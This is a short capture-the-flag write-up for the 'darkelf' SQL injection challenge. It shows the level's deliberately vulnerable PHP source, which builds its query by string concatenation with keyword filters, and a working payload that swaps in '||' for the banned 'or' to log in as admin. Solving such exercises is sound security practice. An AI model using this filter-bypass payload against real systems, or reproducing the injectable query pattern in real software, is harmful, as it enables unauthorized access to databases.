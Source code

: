 # darkelf

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

`or` and `and` is banned, HeHe. From the [MySQL Operators Documentation](https://dev.mysql.com/doc/refman/8.0/en/non-typed-operators.html), I can use `||` or `&&` instead.

```
pw=' || id='admin
```

```
query : select id from prob_darkelf where id='guest' and pw='' || id='admin'
Hello admin
DARKELF Clear!
```